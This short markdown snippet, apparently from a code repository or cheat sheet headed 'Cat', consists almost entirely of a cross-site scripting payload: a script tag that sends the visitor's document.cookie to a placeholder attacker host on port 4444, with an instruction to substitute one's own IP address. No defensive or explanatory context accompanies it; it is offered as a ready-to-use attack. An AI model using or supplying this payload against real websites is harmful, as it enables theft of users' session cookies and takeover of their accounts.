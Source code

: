 # Cat


```
<script>document.location='http://<YOUR_IP>:4444/?c='+document.cookie;</script>
```
> Replace `YOUR_IP` by your actual ip
